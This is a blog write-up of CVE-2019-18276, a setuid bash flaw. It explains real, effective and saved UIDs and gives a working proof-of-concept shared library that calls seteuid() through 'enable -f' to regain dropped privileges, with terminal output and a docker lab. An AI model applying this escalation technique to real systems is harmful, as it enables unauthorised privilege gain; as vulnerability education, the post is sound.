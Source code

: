 ```yaml
---
draft: false
date: 2019-11-28T23:13:39+01:00
title: "CVE-2019-18276 - Suidbash"
description: "CVE-2019-18276 - Initially based on an older vulnerability back in 1999 on suidperl. Now after 20 years in 2019 we found the same vulnerability in bash"
slug: "cve-2019-18276-suidbash"
authors: ["Oussama Amri"]
tags: ["cve", "bash", "privilege-escalation"]
categories: []
externalLink: ""
series: []
aliases: ["/post/cve-2019-18276-suidbash/"]
---
```


This exploit was initially based on an older vulnerability back in 1999 (`suidperl`). Now after 20 years in 2019 we found the same vulnerability in bash (`CVE-2019-18276`) was discovered by Ian Pudney.

## TL;DR
The root cause of this vulnerability is that bash doesn't handle setuid bit correctly, by default bash will drop the SUID privilege if the **Real UID** is different from the **Effective UID**, but it forget to drop also the **Saved UID**. Before we continue let's first define :

## Real UID vs Effective UID vs Saved UID

* **Real UserID** : It is the owner of the process.
* **Effective UserID** : By default it is the same as Real UserID, but sometimes it is changed to give more privilege to the user, e.g : setuid bit.
* **Saved UserID** : Sometimes when a privileged user (generally root) wants to do some non-privileged activities, this can be achieved by temporarily switching to non-privileged account.


## setuid() vs seteuid()

* **setuid()** : This function will change both the (`Real UserID`, `Effective UserID` and `Saved UserID`) of the current process to the specified value.
* **seteuid()** : This function will change the `Effective UserID` to the specified value. The effective user ID may be set to the value of the real user ID or the saved set-user-ID.

### Example
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
printf("UID = %d , eUID = %d \n",getuid(),geteuid());
system("id");
seteuid(1001);
printf("UID = %d , eUID = %d \n",getuid(),geteuid());
system("id");
}
```
After compiling this code we need to specify the setuid  bit on the binary and run it from a different user.
```bash
alice@suidbash:/CVE-2019-18276$ ls -la
total 24
drwxrwxrwt 1 alice  alice  4096   Nov 29 09:59 .
drwxr-xr-x 1 alice  alice  4096   Nov 28 21:42 ..
-rwsr-xr-x 1 bob    bob    8587   Nov 29 09:59 uid
-rwsr-xr-x 1 bob    bob    959120 Nov 28 21:49 bash
alice@suidbash:/CVE-2019-18276$ ./uid 
UID = 1001 , eUID = 1000 
uid=1001(alice) gid=1001(alice) euid=1000(bob) groups=1000(bob),1001(alice)
UID = 1001 , eUID = 1001 
uid=1001(alice) gid=1001(alice) groups=1001(alice)
```

As we can see the binary bash is set with the setuid bit, which mean that if `alice` user run this binary, she will get automatically `bob`'s privilege. However this will not happen with bash, because bash by default drops automatically the privilege if the user didn't specify the `-p` option.

```shell
alice@suidbash:/CVE-2019-18276$ ./bash 
bash-4.2$ id
uid=1001(alice) gid=1001(alice) groups=1001(alice)

alice@suidbash:/CVE-2019-18276$ ./bash -p
bash-4.2$ id
uid=1001(alice) gid=1001(alice) euid=1000(bob) groups=1000(bob),1001(alice)
```
>  We are not sure if bash uses `seteuid()` function to drop the privilege, but after some testing we figure out that the `Saved UID` didn't change.

## The Attack
bash doesn't handle setuid bit correctly, which makes us able to recover the dropped privilege. To exploit this vulnerability we need to call the `seteuid()` function in order to recover the Saved UID. However the problem here is that we cannot exploit this by calling a binary to execute `seteuid()`, we need to call the `seteuid()` in the process runtime.

### enable -f
`enable` is a bash function that can be used to enable and disable builtin shell commands, and with option `-f` we can load a shared object.

### Exploit
```c
#include <sys/types.h>
#include <unistd.h>
#include <stdio.h>
// gcc -c -fPIC pwn.c -o pwn.o
// gcc -shared -fPIC pwn.o -o libpwn.so
void __attribute__ ((constructor)) initLibrary(void){
    seteuid(1000); // The Saved UID that we want to recover
}
```
After compiling the code all what we need to do is :
```shell
alice@suidbash:/CVE-2019-18276$ ./bash 
bash-4.2$ id      
uid=1001(alice) gid=1001(alice) groups=1001(alice)
bash-4.2$ enable -f ./libpwn.so asd
bash: enable: cannot find asd_struct in shared object ./libpwn.so: ./libpwn.so: undefined symbol: asd_struct
bash-4.2$ id
uid=1001(alice) gid=1001(alice) euid=1000(bob) groups=1000(bob),1001(alice)
bash-4.2$ 
```
As you can see we have successfully recovered the dropped privilege.

### Download:
To repeat all the steps :
```shell
amriunix@hunter:~$ docker run -it -u alice -h suidbash amriunix/cve-2019-18276 /bin/bash
alice@suidbash:/$ cd CVE-2019-18276/
alice@suidbash:/CVE-2019-18276$ ls -la
total 980
drwxr-xr-x 2 alice alice   4096 Nov 29 10:57 .
drwxr-xr-x 1 root  root    4096 Nov 29 11:22 ..
-rwsr-xr-x 1 bob   bob   959120 Nov 28 21:49 bash
-rwxr-xr-x 1 alice alice   7876 Nov 28 21:52 libpwn.so
-rw-r--r-- 1 alice alice    138 Nov 28 21:47 pwn.c
-rw-r--r-- 1 alice alice   1608 Nov 28 21:52 pwn.o
-rwsr-xr-x 1 bob   bob     8587 Nov 29 10:57 uid
-rw-r--r-- 1 root  root     206 Nov 29 10:57 uid.c
alice@suidbash:/CVE-2019-18276$ 
```

#### References:
* [liveoverflow](https://www.youtube.com/watch?v=-wGtxJ8opa8)